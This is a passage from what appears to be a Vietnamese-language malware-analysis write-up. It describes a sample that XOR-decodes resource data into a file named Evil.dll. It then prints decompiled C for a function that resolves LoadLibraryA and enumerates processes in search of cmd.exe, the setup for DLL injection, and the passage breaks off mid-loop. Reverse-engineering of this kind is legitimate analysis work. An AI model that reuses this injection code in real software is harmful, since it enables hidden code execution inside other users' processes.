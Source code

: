     Chương trình thực hiện phép xor dữ liệu trong resource với dải byte cho trước. Sau đó tiến hành ghi vào file trong đường dẫn cho trước (trong TH này là file Evil.dll).

    ![alt text](IMG/8/image-8.png)

    Như vậy hàm này có chức năng load dữ liệu ở trong resource rùi thực hiện xor để  lấy được dữ liệu thực sự để để ghi vào file `Evil.dll`.

- Hàm `sub_7FF7BB771070()`:

    ```C
    int sub_7FF7BB771070()
    {
    HMODULE ModuleHandleW; // rax
    HMODULE (__stdcall *LoadLibraryA)(LPCSTR); // rsi
    HANDLE Toolhelp32Snapshot; // rbx
    __int64 v3; // rax
    char v4; // cl
    DWORD th32ProcessID; // r8d
    HANDLE RemoteThread; // rax
    void *v7; // rbx
    void *v8; // rdi
    void *v9; // rdi
    __int64 PtNumOfCharConverted[2]; // [rsp+40h] [rbp-378h] BYREF
    PROCESSENTRY32W pe; // [rsp+50h] [rbp-368h] BYREF
    char Dst[272]; // [rsp+290h] [rbp-128h] BYREF

    ModuleHandleW = GetModuleHandleW(L"kernel32.dll");
    LoadLibraryA = (HMODULE (__stdcall *)(LPCSTR))GetProcAddress(ModuleHandleW, "LoadLibraryA");
    pe.dwSize = 568;
    Toolhelp32Snapshot = CreateToolhelp32Snapshot(2u, 0);
    if ( Process32FirstW(Toolhelp32Snapshot, &pe) )
    {
        do
        {
        PtNumOfCharConverted[0] = 0i64;
        wcstombs_s((size_t *)PtNumOfCharConverted, Dst, 0x104ui64, pe.szExeFile, 0xFFFFFFFFFFFFFFFFui64);
        v3 = 0i64;
        while ( 1 )
        {
            v4 = Dst[v3++];
            if ( v4 != aCmdExe[v3 - 1] )
            break;